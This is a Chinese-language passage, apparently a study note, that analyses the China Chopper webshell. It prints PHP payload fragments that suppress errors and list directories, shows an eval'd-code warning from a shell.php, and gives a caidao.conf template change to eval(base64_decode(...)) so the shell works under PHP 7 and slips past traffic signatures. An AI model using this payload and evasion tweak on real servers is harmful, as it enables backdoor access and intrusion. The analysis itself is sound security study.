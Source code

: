 `隐藏处理`： 首先也是做了隐藏处理，抑制错误信息输出，设置脚本执行时间为0

```php
@ini_set("display_errors","0");
@set_time_limit(0);
```

`扫描目录`： 打开目录、遍历目录

```php
while($N=@readdir($F)){
        $P=$D.'/'.$N;
        $T=@date("Y-m-d H:i:s",@filemtime($P));
        @$E=substr(base_convert(@fileperms($P),10,8),-4);
        $R="\t".$T."\t".@filesize($P)."\t".$E."\n";
        if(@is_dir($P)) $M.=$N."/".$R;
        else $L.=$N.$R;
    }
    echo $M.$L;
    @closedir($F);
```

报文里存在返回的错误信息

```plaintext
<b>Warning</b>:  Cannot call assert() with string argument dynamically in <b>/var/www/html/shell.php(3) : eval()'d code</b> on line <b>1</b><br />
```

解决：[菜刀连接一句话木马出现：`Cannot call assert() with string argument dynamically`错误 ](https://www.cnblogs.com/dotnetcrazy/p/11407505.html)

payload里使用了`assert`函数动态执行代码，在php7里，这个特性已经移除

在`caidao.conf`，修改payload模板

```ini
<PHP_BASE>
eval(base64_decode('%s')); 
</PHP_BASE>
```

古人的智慧，原来大师早就预测到ua可能过时作为流量特征了，留好了模板等后继者修改适配

![13](/medias/webshell/13.png)
